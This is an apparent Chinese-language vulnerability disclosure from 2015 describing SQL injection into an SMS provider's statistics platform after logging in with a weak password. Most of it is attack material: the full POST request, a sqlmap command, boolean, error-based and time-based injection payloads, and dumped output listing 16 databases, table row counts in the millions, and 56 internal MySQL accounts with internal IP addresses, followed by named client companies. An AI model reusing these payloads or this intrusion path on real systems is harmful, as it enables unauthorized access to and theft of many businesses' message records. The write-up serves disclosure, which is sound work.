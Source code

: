 # 某平台SQL注入影响数十万厂商

Feei <feei#feei.cn> 01/2015

> 一家短信提供商，影响涉及各行各业包括金融证券、酒店、医药、互联网等数十万企业的短信的发送记录、发送权限

## 1. 注入点

由之前扫到的弱口令，登陆进来后找到以下注入点：

```bash
POST  
http://211.***.***.62/Statistics/SumStatistics/GetSumDepartment?startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true HTTP/1.1  
Host: 211.***.***.62  
Connection: keep-alive  
Content-Length: 76  
Pragma: no-cache  
Cache-Control: no-cache  
Accept: application/json, text/javascript, */*; q=0.01  
Origin: http://211.***.***.62  
X-Requested-With: XMLHttpRequest  
DNT: 1  
Referer: http://211.***.***.62/Statistics/SumStatistics/Index  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6  
Cookie: 替换为登陆后的COOKIE  
MenusBlockIDs=10010,10011,10012,10013,10014,17000,12000,13000,14000,15000,18000,18200; ControllerName=SumStatistics
```

`startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true`
`./sqlmap.py -r header --threads 10 --dbs -batch`

```bash
Place: POST  
Parameter: startTime  
Type: boolean-based blind  
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)  
Payload: startTime=-6517' OR (4508=4508)#&endTime=2015-01-25&mstype=SMS&on  
Time=true  
Type: error-based  
Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause  
Payload: startTime=2015-01-25' AND (SELECT 6733 FROM(SELECT COUNT(*),CONCAT(0x716c6f6371,(SELECT (CASE WHEN (6733=6733) THEN 1 ELSE 0 END)),0x716f697771,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '  
kjoG'='kjoG&endTime=2015-01-25&mstype=SMS&onTime=true  
Type: AND/OR time-based blind  
Title: MySQL > 5.0.11 AND time-based blind  
Payload: startTime=2015-01-25' AND SLEEP(5) AND 'JYnp'='JYnp&endTime=2015-  
01-25&mstype=SMS&onTime=true
```

## 2. 漏洞证明

涉及16个数据库

**DATABASES(16)**
```
[*] 400_gsms
[*] 400_list
[*] commission
[*] gsms2_init
[*] gsms_init
[*] information_schema
[*] list2_init
[*] list_init
[*] mos2_gsms
[*] mos_gsms
[*] mos_gsms2_1
[*] mos_gsms_2
[*] mos_list2_1
[*] mysql
[*] performance_schema
[*] test
```

影响千万级数据
Database: mos_gsms2_1

```
+-------------------------------+---------+
| Table | Entries |
+-------------------------------+---------+
| gsms_msg_ticket | 4302497 |
| gsms_contact | 4191441 |
| gsms_statereport | 4031478 |
| gsms_deduct_record | 599589 |
| gsms_user_role | 360443 |
| gsms_user_role20130408 | 360110 |
| gsms_user_role20130409 | 360052 |
| gsms_msg_frame | 359263 |
| gsms_msg_pack | 241054 |
| gsms_non_white_list | 158632 |
| gsms_red_list | 124257 |
| gsms_account_carrier_price | 100360 |
| gsms_user | 58597 |
| gsms_user20130403 | 58523 |
| gsms_user20130401 | 58518 |
| gsms_user20130312 | 58275 |
| gsms_biztype_specnum | 53074 |
| gsms_enterprise_apply_detail | 49971 |
| gsms_user_business_type | 47656 |
| gsms_enterprise_specnum_bind | 39635 |
| gsms_user_account_bind | 33256 |
| gsms_business_type | 13511 |
| gsms_capital_account | 12545 |
| gsms_enterprise_apply | 12542 |
```
**Users(56)**
```bash
[*] 'cactiuser'@'192.168.10.89'
[*] 'censerver'@'192.168.10.89'
[*] 'censerver'@'localhost'
[*] 'chengxuan'@'192.168.%'
[*] 'chengxuan'@'localhost'
[*] 'innotop'@'192.168.10.83'
[*] 'monitor'@'192.168.10.89'
[*] 'monyog'@'192.168.%'
[*] 'monyog'@'localhost'
[*] 'moshengkuo'@'192.168.%'
[*] 'mscheck'@'127.0.0.1'
[*] 'mscheck'@'192.168.%'
[*] 'mscheck'@'localhost'
[*] 'private'@'192.168.10.86'
[*] 'private'@'localhost'
[*] 'program'@'172.16.200.10'
[*] 'program'@'172.16.202.101'
[*] 'program'@'172.16.202.102'
[*] 'program'@'172.16.202.203'
[*] 'program'@'183.232.65.44'
[*] 'program'@'192.168.%'
[*] 'program'@'192.168.10.100'
[*] 'program'@'192.168.10.101'
[*] 'program'@'192.168.10.102'
[*] 'program'@'192.168.10.98'
...
[*] 'program'@'localhost'
[*] 'repl'@'192.168.10.%'
[*] 'repl'@'192.168.10.130'
[*] 'root'@'%'
[*] 'root'@'192.168.%
[*] 'root'@'localhost'
[*] 'super'@'192.168.%'
[*] 'super'@'192.168.10.86'
[*] 'super'@'localhost'
[*] 'wanglianguang'@'%'
[*] 'wanglianguang'@'192.168.%'
[*] 'wanglianguang'@'localhost'
[*] 'xiaozhuan'@'192.168.%'
[*] 'xiaozhuan'@'localhost'
```

## 3. 漏洞影响

![](images/v_xuanwu_01.gif)
![](images/v_xuanwu_02.gif)
![](images/v_xuanwu_03.gif)
![](images/v_xuanwu_04.gif)
![](images/v_xuanwu_05.gif)
![](images/v_xuanwu_06.gif)
![](images/v_xuanwu_07.gif)
![](images/v_xuanwu_08.gif)

从结果看应该所有产品数据库都在，光短信库用户就有50000多家，短信数量千万级。还有400等产品

涉及厂商（短信发送数较多的）
- 各大银行
- 东风悦达起亚
- 安利中国
- BMW中国
- 人人快递网
- 中通物流
- 我要旅行网
- 娃哈哈集团
- GXG
- 唯品会
- 酷讯
- ...
